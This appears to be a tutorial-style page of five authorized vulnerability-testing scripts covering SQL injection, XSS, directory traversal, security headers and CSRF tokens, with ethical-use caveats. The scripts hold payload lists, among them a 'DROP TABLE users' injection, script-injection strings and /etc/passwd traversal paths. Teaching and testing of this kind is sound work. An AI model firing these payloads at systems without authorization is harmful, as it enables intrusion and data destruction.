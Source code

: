 # Vulnerability Testing Code Examples

Here are some safe, ethical examples of vulnerability testing code that you could use to test your own systems (with proper authorization):

## 1. Basic SQL Injection Test

```python
# Ethical SQL injection tester (for authorized testing only)
import requests

def test_sql_injection(url, params):
    """
    Test for basic SQL injection vulnerabilities
    """
    test_payloads = [
        "' OR '1'='1",
        "' OR 1=1 --",
        '" OR "" = "',
        "1; DROP TABLE users --"
    ]
    
    for payload in test_payloads:
        test_params = {k: payload for k in params.keys()}
        try:
            response = requests.get(url, params=test_params)
            if "error in your SQL syntax" in response.text.lower():
                print(f"Possible SQLi vulnerability with payload: {payload}")
            elif response.status_code == 500:
                print(f"Server error with payload: {payload} - investigate further")
        except Exception as e:
            print(f"Error testing payload {payload}: {str(e)}")

# Example usage (only test systems you own/have permission to test)
# test_sql_injection("http://your-test-site.com/login", {"username": "test", "password": "test"})
```

## 2. XSS Vulnerability Test

```javascript
// Ethical XSS tester (client-side version)
function testXSS(url) {
  const xssPayloads = [
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>",
    "<svg/onload=alert('XSS')>",
    "javascript:alert('XSS')"
  ];
  
  xssPayloads.forEach(payload => {
    const testUrl = `${url}?test=${encodeURIComponent(payload)}`;
    fetch(testUrl)
      .then(response => response.text())
      .then(text => {
        if (text.includes(payload.replace(/<|>/g, ''))) {
          console.warn(`Possible XSS vulnerability with payload: ${payload}`);
        }
      })
      .catch(error => console.error(`Test failed: ${error}`));
  });
}

// Example usage (only test systems you own):
// testXSS('http://your-test-site.com/search');
```

## 3. Directory Traversal Test

```python
# Ethical directory traversal tester
import requests

def test_directory_traversal(base_url):
    traversal_payloads = [
        "../../../../etc/passwd",
        "..%2F..%2F..%2Fetc%2Fpasswd",
        "....//....//etc/passwd"
    ]
    
    for payload in traversal_payloads:
        test_url = f"{base_url}?file={payload}"
        try:
            response = requests.get(test_url)
            if "root:" in response.text:
                print(f"CRITICAL: Possible directory traversal with payload: {payload}")
            elif response.status_code != 404:
                print(f"Unusual response with payload {payload} - status {response.status_code}")
        except Exception as e:
            print(f"Error testing payload {payload}: {str(e)}")

# Example usage:
# test_directory_traversal("http://your-test-site.com/download")
```

## 4. Basic Security Headers Check

```bash
#!/bin/bash
# Simple security headers checker

URL="http://example.com"  # Change to your test URL

echo "Testing security headers for $URL"
echo "-------------------------------"

headers=$(curl -I -s $URL | grep -iE "strict-transport-security|x-frame-options|x-xss-protection|x-content-type-options|content-security-policy")

if [[ -z "$headers" ]]; then
  echo "No security headers found!"
else
  echo "$headers"
fi

echo ""
echo "Checking for server information leaks..."
server_info=$(curl -I -s $URL | grep -iE "server|x-powered-by")

if [[ -n "$server_info" ]]; then
  echo "WARNING: Server information exposed:"
  echo "$server_info"
fi
```

## 5. CSRF Token Checker

```python
import requests
from bs4 import BeautifulSoup

def check_csrf_protection(url):
    try:
        session = requests.Session()
        response = session.get(url)
        soup = BeautifulSoup(response.text, 'html.parser')
        
        csrf_token = soup.find('input', {'name': 'csrf_token'}) or \
                     soup.find('input', {'name': 'csrfmiddlewaretoken'}) or \
                     soup.find('input', {'name': '_token'})
        
        if csrf_token:
            print(f"CSRF token found (good): {csrf_token['name']}")
        else:
            print("WARNING: No CSRF token found in forms")
            
    except Exception as e:
        print(f"Error checking CSRF protection: {str(e)}")

# Example usage:
# check_csrf_protection("http://your-test-site.com/login")
```

## Important Ethical Considerations:

1. **Only test systems you own or have explicit permission to test**
2. **Never test production systems without authorization**
3. **Use a controlled environment for testing**
4. **Disclose any findings responsibly to the system owners**
5. **Comply with all applicable laws and regulations**

For more comprehensive testing, consider using established tools like:
- OWASP ZAP
- Burp Suite
- Nikto
- Nmap (with NSE scripts)
- Metasploit Framework (for authorized penetration testing)
